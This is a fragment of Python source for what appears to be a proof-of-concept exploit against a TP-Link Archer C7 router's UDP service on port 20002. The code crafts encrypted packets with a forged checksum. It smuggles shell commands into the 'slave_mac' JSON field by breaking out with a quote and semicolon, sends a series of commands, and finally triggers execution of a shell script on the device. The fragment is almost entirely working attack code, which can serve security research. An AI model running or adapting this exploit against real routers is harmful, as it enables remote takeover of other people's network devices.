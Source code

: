 ```python
    payload = '{"method":"slave_key_offer","data":{"group_id":"8735fc23-b166-4f27-9acc-ec7cb15b98fc","ip":"192.168.0.125","slave_mac":"XXXXXXXXXXXXXXXXXXXXXX", "slave_private_account":"DEADBEEF", "slave_private_password":"CAFEBABE", "want_to_join":false, "model":"Archer C7","operation_mode":"Superman","product_type":"spiderman"}}'
    payload = payload.split("XXXXXXXXXXXXXXXXXXXXXX")[0] + "';"+ s + ";'" + payload.split("XXXXXXXXXXXXXXXXXXXXXX")[1]
    return payload

def craftPacket(i,execute=False):
    packet = "\x01"
    packet += "\xf0" # This is needed to get into same branch as the vuln
    packet += "\x00\x07" # to get into the switch case 6 bute the choice is x - 1 so we need 7 to get 6 for the vulnerability ; Trying out big endian first TODO: need to check on the debugger that it is big endian
    packet += "\x01\x50"# Try with packet length = 0x11
    packet += "\x01" # this is the flag and as long as it is not zero, we will pass a check
    packet += "\x00" # Just put in some unknown data
    packet += "\xde\xad\xbe\xef" # this is the serial number. Doesnt seem to impact the flow so any is possible
    packet += p32(0x5a6b7c8d, endian="big")# This is the magic checksum

    payload = ""
    if execute == False:
        payload= injectCommand(i)
    elif execute == True:
        print("OKKKKKK")
        payload = injectCommandString('sh ' + fileName)
    #print("PAYLOAD: " + payload)
    packet+= AESEncrypt(payload)
    temp = packet[:4]
    temp += p16(len(pad(payload)) , endian="big") # update the length of the padded payload
    packet = temp + packet[6:]
    calculatedChecksum = calcChecksum(packet)
    result = packet[:12]
    
    result += p32(calculatedChecksum , endian="big") # replaces the magic checksum with the calculated checksum
    result += packet[16:]
    
    return result


def main():

    DEBUG = False
    countpause = 0 
    IP="192.168.0.254"
    PORT=20002
    addr = (IP,PORT)
    s = socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
    counter  =  0
    if not DEBUG:
        for i in COMMAND:
            packet = craftPacket(i)
            #print("PACKET : " + packet) 
            if countpause %15 == 0 and countpause != 0:
                time.sleep(8)
            countpause += 1
            s.sendto(packet,addr)
            counter += 1
            print(str(counter) + "/" + str(len(COMMAND))) 
    executePayload = craftPacket("",execute=True)
    s.sendto(executePayload,addr)
```